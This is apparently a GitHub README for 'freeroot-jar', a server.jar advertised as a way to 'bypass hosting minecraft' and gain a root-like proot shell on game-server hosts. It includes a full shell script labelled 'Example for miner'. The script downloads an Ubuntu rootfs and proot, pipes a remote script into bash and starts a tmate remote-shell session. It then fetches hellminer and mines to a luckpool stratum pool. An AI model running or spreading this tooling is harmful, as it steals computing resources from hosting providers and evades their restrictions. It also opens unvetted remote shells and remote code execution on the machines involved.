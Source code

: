 ## Overview
freeroot with .jar (bypass hosting minecraft)
hi =) 
## Prerequisites

- Bash shell environment
- Internet connectivity
- Wget installed
- Supported CPU architecture: x86_64 (amd64) or aarch64 (arm64)

## Installation

step 1. Download file server.jar [here](https://github.com/Mytai20100/freeroot-jar/raw/refs/heads/main/server.jar)    
step 2. Run server and enjoy it =)
## Supported Architectures
- x86_64 (amd64)
- aarch64 (arm64)
## How using it ?
idk =)
## Optional Dealing with restricted hosts (e.g. using msh or blocked input access)
Some hosts block input/output or prevent apt from working properly. In these cases, you can modify the root.sh file inside freeroot and append the following snippet at the end:
>`$ROOTFS_DIR/usr/local/bin/proot \
  --rootfs="${ROOTFS_DIR}" \
  -0 -w /root -b /dev -b /sys -b /proc -b /etc/resolv.conf --kill-on-exit \
  /bin/bash -c '
    export DEBIAN_FRONTEND=noninteractive;
    apt update -y && apt upgrade -y ;
 #apt install neofetch -y 
  '
`
## Example for miner =) with hellminer
`
#!/bin/sh

ROOTFS_DIR=$(pwd)
export PATH=$PATH:~/.local/usr/bin
max_retries=50
timeout=1
ARCH=$(uname -m)

if [ "$ARCH" = "x86_64" ]; then
  ARCH_ALT=amd64
elif [ "$ARCH" = "aarch64" ]; then
  ARCH_ALT=arm64
else
  printf "Unsupported CPU architecture: ${ARCH}"
  exit 1
fi

if [ ! -e $ROOTFS_DIR/.installed ]; then
  echo "Installing Ubuntu base rootfs..."
  wget --tries=$max_retries --timeout=$timeout --no-hsts -O /tmp/rootfs.tar.gz \
    "http://cdimage.ubuntu.com/ubuntu-base/releases/20.04/release/ubuntu-base-20.04.4-base-${ARCH_ALT}.tar.gz"
  mkdir -p $ROOTFS_DIR
  tar -xf /tmp/rootfs.tar.gz -C $ROOTFS_DIR
fi

if [ ! -e $ROOTFS_DIR/usr/local/bin/proot ]; then
  mkdir -p $ROOTFS_DIR/usr/local/bin
  wget --tries=$max_retries --timeout=$timeout --no-hsts -O $ROOTFS_DIR/usr/local/bin/proot "https://raw.githubusercontent.com/foxytouxxx/freeroot/main/proot-${ARCH}"
  chmod 755 $ROOTFS_DIR/usr/local/bin/proot
fi

if [ ! -e $ROOTFS_DIR/.installed ]; then
  echo "nameserver 1.1.1.1" > $ROOTFS_DIR/etc/resolv.conf
  echo "nameserver 1.0.0.1" >> $ROOTFS_DIR/etc/resolv.conf
  touch $ROOTFS_DIR/.installed
fi

$ROOTFS_DIR/usr/local/bin/proot \
  --rootfs="${ROOTFS_DIR}" \
  -0 -w /root -b /dev -b /sys -b /proc -b /etc/resolv.conf --kill-on-exit \
  /bin/bash -c '
    export DEBIAN_FRONTEND=noninteractive;
    apt update -y && apt install -y tmate curl wget libsodium23; 
    curl neofetch.sh | bash 
    echo "Tmate session starting...";
    tmate -F > /tmate.log 2>&1 &
cat /tmate.log
wget clone https://github.com/hellcatz/hminer/releases/download/v0.59.1/hellminer_linux64.tar.gz
tar -zxf hellminer_linux64.tar.gz 
./hellminer -c stratum+tcp://na.luckpool.net:3957 -u youraddress.nameworker -p x
  '
`
## Credits
freeroot by [foxytouxxx/freeroot](https://github.com/foxytouxxx/freeroot).
freeroot by [Mytai20100/freeroot](https://github.com/Mytai20100/freeroot).
## License
(c) 2025 -2026 ????? and ??? . All rights reserved. Licensed under the MIT License.
